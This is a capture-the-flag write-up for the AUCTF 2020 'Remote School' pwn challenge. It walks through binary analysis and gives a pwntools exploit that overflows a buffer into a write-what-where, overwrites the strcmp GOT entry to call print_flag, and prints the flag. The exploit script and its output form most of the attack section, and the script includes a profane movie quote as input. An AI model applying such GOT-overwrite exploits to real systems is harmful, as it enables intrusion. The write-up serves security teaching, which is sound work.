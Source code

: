 # AUCTF 2020

## Remote School

> 960
>
> Dear Student,
>
> Due to COVID-19 concerns our curriculum will be moving completely to online courses... I know we haven't even started our school year yet so this may come as a shock. But I promise it won't be too bad! You can login at challenges.auctf.com 30013.
>
> Best, Dean of Eon Pillars
> 
> Note: ASLR is disabled for this challenge
>
> Author: nadrojisk
> 
> [online](online)

Tags: _pwn_ _write-what-where_ _got_ _libc_

### Introduction

I'm a little stumped why this was the least solved pwn.


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Basically, choose your own adventure.

PIE enabled, however the challenge server does not have ASLR enabled.

> To test without disabling ASLR systemwide type: `setarch $(uname -m) -R ./exploit.py`)
> 
> Since no ASLR and x86 (32-bit) we can assume a base process address of `0x56555000`.


#### Decompile with Ghidra

Three functions of interest.

Just need to call `print_flag`:

![](./print_flag.png)

Looks like a basic buffer overflow vulnerability that will write any value to any writable location.  Just need to find a way to call `test`:

![](./test.png)

How to call `test`:

![](./class_hacker.png)


### Exploit

#### Attack Plan

1. Attend "Hacker" class
2. Pass _the_ `test`
3. Get the flag

#### Attend "Hacker" class

```
# ./online
Welcome to your new online class!
We here, at Eon Pillars, we think Zoom is trash and prefer to have our lessions via command line!
May I get your name?
	Name: foobar
Thanks! It is nice to meet you foobar!

Well enough of that let's start class ... What should we do?
> [? for menu]: ?

~~Eon Pillars help menu~~

help: Print help menu
attend <class>: go to class
study <class>: study for class
list: list classes
stats: check stats
grades: check grades
quit: Exit Terminal

What should we do?
> [? for menu]: list classes
You have these classes:
	Algebra
	CompSci
What should we do?
> [? for menu]:
```

This may be enough info to guess `attend Hacker`, if not, try `strings`, or take a look at `cmd_attend` calling `cmd_dispatch`.

`cmd_dispatch` is passed a pointer to a table of pointers pairs.  The first pointer is to a string that is used to check for a correct command, and the second is a pointer to a function to call for that command.

`classtable`:

```
00013ec0 e0              undefined1E0h                     [0]           ?  ->  000120e0 
00013ec1 20              undefined120h                     [1]
00013ec2 01              undefined101h                     [2]
00013ec3 00              undefined100h                     [3]
00013ec4 2f              undefined12Fh                     [4]           ?  ->  0001192f
00013ec5 19              undefined119h                     [5]
00013ec6 01              undefined101h                     [6]
00013ec7 00              undefined100h                     [7]
00013ec8 e8              undefined1E8h                     [8]           ?  ->  000120e8
00013ec9 20              undefined120h                     [9]
00013eca 01              undefined101h                     [10]
00013ecb 00              undefined100h                     [11]
00013ecc 67              undefined167h                     [12]          ?  ->  00011967
00013ecd 19              undefined119h                     [13]
00013ece 01              undefined101h                     [14]
00013ecf 00              undefined100h                     [15]
00013ed0 f0              undefined1F0h                     [16]          ?  ->  000120f0
00013ed1 20              undefined120h                     [17]
00013ed2 01              undefined101h                     [18]
00013ed3 00              undefined100h                     [19]
00013ed4 9f              undefined19Fh                     [20]          ?  ->  0001199f
00013ed5 19              undefined119h                     [21]
00013ed6 01              undefined101h                     [22]
00013ed7 00              undefined100h                     [23]
```

`0x13ec0` -> `0x120e0` in the table above compares with the table below:

```
000120e0 41 6c 67 65 62 72 61 00      ds         "Algebra"
000120e8 43 6f 6d 70 53 63 69 00      ds         "CompSci"
000120f0 48 61 63 6b 65 72 00         ds         "Hacker"
```

If there is a match then the next address is called:

```
uVar2 = (**(code **)(param_2 + local_18 * 8 + 4))(local_10,local_3c);
```

Code to navigate to `class_hacker`:

```
#!/usr/bin/env python3

from pwn import *

p = process('./online')
#p = remote('challenges.auctf.com', 30013)

p.recvuntil('Name: ')
p.sendline("Fuck you. That's my name. You know why, mister? You drove a Hyundai to get here. I drove an eighty-thousand dollar BMW. THAT'S my name.")
p.recvuntil('menu]: ')
p.sendline('attend Hacker')
p.recvuntil('Welcome!\n')
```

#### Pass _the_ `test`

```
baseproc = 0x56555000
binary = ELF('online')

payload  = 2048 * b'A'
payload += p32(baseproc + binary.symbols['print_flag'])
payload += p32(baseproc + binary.got['strcmp'])
p.sendline(payload)
```

`class_hacker` just takes our input and calls `test`.  The `payload` just overflows `local_814` into `local_14` and `*local_10`.  Whatever is in `local_14` will be written to whatever `*local_10` points to.

By overwriting the `strcmp` GOT entry with the address of `print_flag`, the next time `strcmp` is called, `print_flag` is really called, and we get the flag.

Grade: A+


#### Get the flag

```
p.recvuntil('menu]: ')
p.sendline("give us the flag")
p.stream()
```

Any input will trigger `strcmp` and deliver the flag:

```
[+] Opening connection to challenges.auctf.com on port 30013: Done
[*] '/pwd/datajerk/auctf2020/remote-school/online'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
auctf{1_hope_you_l1ked_my_g@m3_2321}
```

Flag: `auctf{1_hope_you_l1ked_my_g@m3_2321}`

